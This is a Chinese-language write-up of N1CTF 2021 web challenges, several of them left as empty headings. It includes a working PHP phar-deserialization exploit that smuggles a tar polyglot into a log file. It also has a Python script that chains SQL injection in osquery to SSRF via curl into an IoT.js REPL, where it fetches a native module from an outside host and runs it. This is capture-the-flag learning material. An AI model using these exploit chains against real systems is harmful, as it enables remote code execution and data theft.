

# N1CTF 2021

## signin

> *2021/11/26*

### 题目

直接给了代码

```php
<?php 
//flag is /flag
$path=$_POST['path'];
$time=(isset($_GET['time'])) ? urldecode(date(file_get_contents('php://input'))) : date("Y/m/d H:i:s");
$name="/var/www/tmp/".time().rand().'.txt';
$black="f|ht|ba|z|ro|;|,|=|c|g|da|_";
$blist=explode("|",$black);
foreach($blist as $b){
    if(strpos($path,$b) !== false){
        die();
    }
}
if(file_put_contents($name, $time)){
    echo "<pre class='language-html'><code class='language-html'>logpath:$name</code></pre>";
}
$check=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($path));
if(is_file($check)){
    echo "<pre class='language-html'><code class='language-html'>".file_get_contents($check)."</code></pre>";
}

```

### payload

## easyphp

> *2021/11/26*

### 题目

这道题代码还是比较简单的，三个文件

```php
// flag.php

<?php

CLASS FLAG {
    private $_flag = 'n1ctf{************************}';
    public function __destruct(){
        echo "FLAG: " . $this->_flag;
    } 
}
```

`flag.php`就是当销毁时，会读取`flag`

```php
// index.php

<?php
include_once "flag.php";
include_once "log.php";

if(file_exists(@$_GET["file"])){
    echo "file exist!";
}else{
    echo "file not exist!";
}

?>
```

`index.php`则会判断文件是否存在

```php
// log.php

<?php
define('ROOT_PATH', dirname(__FILE__));

$log_type = @$_GET['log_type'];
if(!isset($log_type)){
    $log_type = "look";
}

$gets = http_build_query($_REQUEST);

$real_ip = $_SERVER['REMOTE_ADDR'];
$log_ip_dir = ROOT_PATH . '/log/' . $real_ip;

if(!is_dir($log_ip_dir)){
    mkdir($log_ip_dir, 0777, true);
}

$log = 'Time: ' . date('Y-m-d H:i:s') . ' IP: [' . @$_SERVER['HTTP_X_FORWARDED_FOR'] . '], REQUEST: [' . $gets . '], CONTENT: [' . file_get_contents('php://input') . "]\n";
$log_file = $log_ip_dir . '/' . $log_type . '_www.log';

file_put_contents($log_file, $log, FILE_APPEND);

?>
```

`log.php`会接受`logtype`参数，并把文件命名为该格式的文件，文件路径也已知，而且存在 **跨目录**，但是用处一般，本题将`log`的形式给出，日志始终以`]`收尾，

```php
'Time: ' . date('Y-m-d H:i:s') . ' IP: [' . @$_SERVER['HTTP_X_FORWARDED_FOR'] . '], REQUEST: [' . $gets . '], CONTENT: [' . file_get_contents('php://input') . "]\n";
```

该题目是比较明显的`phar`反序列化，因为存在着标准的文件操作函数`file_exists`，但是本体的难点在于，无法上传`phar`文件，而可读取的东西又只有`log`文件，所以思路就转换为如何把`phar`文件嵌入`log`文件中，正常的`phar`文件一般是以`GBMB`为结尾，直接插入会使其变为非法文件，所以就需要一种能将`phar`文件正确嵌入其他格式的方法，保证正确性。

这里有一篇将`phar`文件正确嵌入`jpg`文件的[文章](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a)，和[虎符CTF中的一道题](https://guokeya.github.io/post/uxwHLckwx/)

实际上，这里可以采用`phar`的`tar`压缩形式，来将其正确的压入其中，而且，向结尾添加一个`]`也不会影响其正确性，举个例子

```php
<?php

CLASS FLAG {
    private $_flag = 'n1ctf{************************}';
    public function __destruct(){
        echo "FLAG: " . $this->_flag;
    } 
}


$phar = new PharData(dirname(__FILE__) . "/phar.tar", 0, "phartest", Phar::TAR);
$phar->startBuffering();
$o = new FLAG();
$phar->setMetadata($o);
$phar->addFromString($log, "test");
$phar->stopBuffering();

file_put_contents("./phar.tar", "]\n", FILE_APPEND);
```

这段代码是可以直接把`flag`读出来的，证明思路是正确的，写个脚本就能读出`flag`

### payload

```php
// exp.php
<?php

CLASS FLAG {
    //private $_flag;
    public function __destruct(){
        echo "FLAG: " . $this->_flag;
    } 
}

$ip = "172.17.0.1";
$log = 'Time: ' . date('Y-m-d H:i:s') . ' IP: [' . $ip . '], REQUEST: [], CONTENT: [';
$data_len = strlen($log);// 读取前面的长度，后面exp好将这部分去掉

if(!file_exists("./phar.tar")){
    $phar = new PharData(dirname(__FILE__) . "/phar.tar", 0, "phartest", Phar::TAR);
    $phar->startBuffering();
    $o = new FLAG();
    $phar->setMetadata($o);
    $phar->addFromString($log, "test");
    $phar->stopBuffering();

    file_put_contents("./phar.tar", "]\n", FILE_APPEND);
}

$exp = file_get_contents("./phar.tar");
$post_exp = substr($exp, $data_len);
echo rawurlencode($post_exp);

// var_dump(is_dir("phar://./phar.tar"));
//var_dump(is_dir("phar://./../../www/log/127.0.0.1/look_www.log"));
```

```python
# exp.py
import os
import requests
from urllib.parse import unquote

def execCmd(cmd):
    r = os.popen(cmd)
    text = r.read()
    r.close()
    return text

headers = {
    "X-Forwarded-For": "172.17.0.1"
}

# write evil log file
exp = execCmd("php exp.php")
r = requests.post("http://127.0.0.1:8880/", unquote(exp), headers=headers)
# 这样访问request才为空
print(r.text)

# exp
r = requests.get("http://127.0.0.1:8880/?log_type=test&file=phar://./log/172.17.0.1/look_www.log")
# r = requests.get("http://testabc.com:10082/?log_type=test&file=phar://./log/127.0.0.1/phar.tar")
print(r.text)
```

## QQQueryyy_all_the_things

> *2021/11/26*

### 题目

这个题是一个黑盒的题目，进去之后，如下所示


很明显是一个**SQL注入**的语句，经过尝试之后，发现可以注入`1';--`


然后开始确定数据库类型，经过测试，发现与`sqlite`有关


里面有很多奇怪的东西，比如`azure_instance_tags`，经过谷歌可得知这个是[`osquery`](https://github.com/osquery/osquery/blob/master/specs/azure_instance_tags.table)，它是基于`sql`的操作系统监控工具，我们可以用它来读取一些系统的信息

#### `select * from file where directory="/";`


#### `select * from listening_ports;`



#### `select * from processes;`

> [xinted](https://www.cnblogs.com/lsgxeva/p/9280777.html)


#### `select * from file where directory="/etc/xinetd.d/";`


#### `select * from augeas where path="/etc/xinetd.d/ctf";`

> 查看`/etc/xinetd.d`配置文件


我们发现了部署在`16324`端口的是`iotjs`，接下来就是突破`IoT.js`，这里其实部署的还有`repl.js`

攻击这个服务还是要利用`16324`端口，但是在外部访问不到还是要借用`osquery`，经过[查找](https://osquery.io/schema/5.0.1/#curl)，发现`osquery`可以调用`curl`，它包含下面几个字段，其中能控制进行攻击的只有`user_agent`字段


> 这里不知道是不是给的docker的环境的原因，复现用的`ctf.xinetd`中没这句`DENABLE_MODULE_NAPI=ON`
>
> *Building N-API with IoT.js*
>
> *You need to append the --n-api parameter to the build command (e.g. tools/build.py --n-api).*
> *This automatically adds the N-API module to IoT.js.*
>
> *To run N-API test you should also append --n-api after the testrunner.py.*
>
> 我们可以通过自定义模块，然后进行导入执行就可以了

结合当前信息我们可以知道

- 通过`curl`来攻击内部服务
- `repl.js`在其中运行
- 可以通过`IOTJS`上传文件执行代码

参考官方文档，执行并得到`flag`

- [`https://github.com/jerryscript-project/iotjs/blob/master/docs/devs/Writing-New-Module.md`](https://github.com/jerryscript-project/iotjs/blob/master/docs/devs/Writing-New-Module.md)
- [`https://github.com/jerryscript-project/iotjs/blob/master/docs/api/IoT.js-API-N-API.md`](https://github.com/jerryscript-project/iotjs/blob/master/docs/api/IoT.js-API-N-API.md)

### payload

```python
#!/usr/bin/python
#-*- coding: utf-8 -*-
import requests
import random
import base64


# SQL Injection
url = "http://47.57.246.66:12321/?str=world';{};--"
# Payload from other team
payload = "select group_concat(result)from curl where url='http://127.0.0.1:16324' and user_agent='\n\n\n\n\n\n\n\n\n\n\n\n\n\n{node}\n\n\n\n\n\n\n\n\n\n\n'"


"""
Write native module to server

fs = require("fs");
http = require("http")

f = fs.openSync("/tmp/styp.node", "w")
http.get({
    host: "158.101.144.10",
    port: 80,
    path: "/styp.node?exp"
}, function(resp){
    resp.on("data", function(exploit){
        fs.writeSync(f, exploit, 0, exploit.length)
    });
    resp.on("end", function(){
        fs.closeSync(f)
        process.exit(1)
    });
});

"""
gadget_init = "fs=require(\"fs\");f=fs.openSync(\"/tmp/dem0.node\",\"w\");http=require(\"http\");http.get({host:\"ip\",port:80,path:\"/demomod.node\"},function(r){r.on(\"data\",function(c){fs.writeSync(f, nc, 0, c.length);});r.on(\"end\", function(){fs.closeSync(f);process.exit(1);})});"
# gadget_init = "var fs = require('fs');var file = '/tmp/fff'var data = new Buffer('aaa');var fd = fs.openSync(file, 'w');var bytes = fs.writeSync(fd, data, 0, data.length);fd.close();"

payload_init = payload.format(node=gadget_init)

r = requests.get(url.format(payload_init))
print(r.text)

"""
Run my native module

sty = require("/tmp/styp.node")
console.log(sty)
"""
gadget_shell = "dem0=require(\"/tmp/dem0.node\");console.log(dem0.hello());"
payload_shell = payload.format(node=gadget_shell)

r = requests.get(url.format(payload_shell))
print(r.text)
```


## funny_web

> *2021/11/26*

### 题目


### payload

## tornado

> *2021/11/26*

### 题目


### payload